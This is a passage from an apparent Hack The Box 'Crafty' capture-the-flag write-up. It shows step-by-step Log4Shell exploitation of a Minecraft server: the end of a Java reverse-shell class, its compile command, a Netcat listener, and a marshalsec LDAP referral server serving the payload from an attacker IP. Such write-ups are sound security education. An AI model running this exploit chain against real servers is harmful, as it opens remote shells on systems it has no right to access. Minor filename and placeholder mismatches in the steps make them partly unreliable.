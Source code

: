 ```java
        p.destroy();
        s.close();
    }
}
```
{: file='Log4jShell.java'}

Modify the `host` and `port` to match that of your web server.

Compile it using the following command:

```sh
javac Log4Shell.java
```

Also, set up a Netcat listener as this is where we will get our reverse shell.

```sh
nc -lnvp 9999
```

### LDAP Referral

Next we'll setup the LDAP referral.

Clone the [marshalsec](https://github.com/mbechler/marshalsec) repo using this command:

```sh
git clone https://github.com/mbechler/marshalsec.git
```

`cd` into the repo and then run the following command to set up maven:

```sh
mvn clean package -DskipTests
```

Finally, start the LDAP server.

```sh
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.14.86:8000/#Log4jShell"
```

Replace `<address>` and `<port>` with the address and port of your web server.

### Install Minecraft

Finally, launch Minecraft. If you don't own the game, download [TLauncher](https://tlauncher.org/en/)

Download version 1.16.5 as that's the version we detected earlier.

![htb-crafty-04.png](/assets/posts/htb-crafty/htb-crafty-04.png)
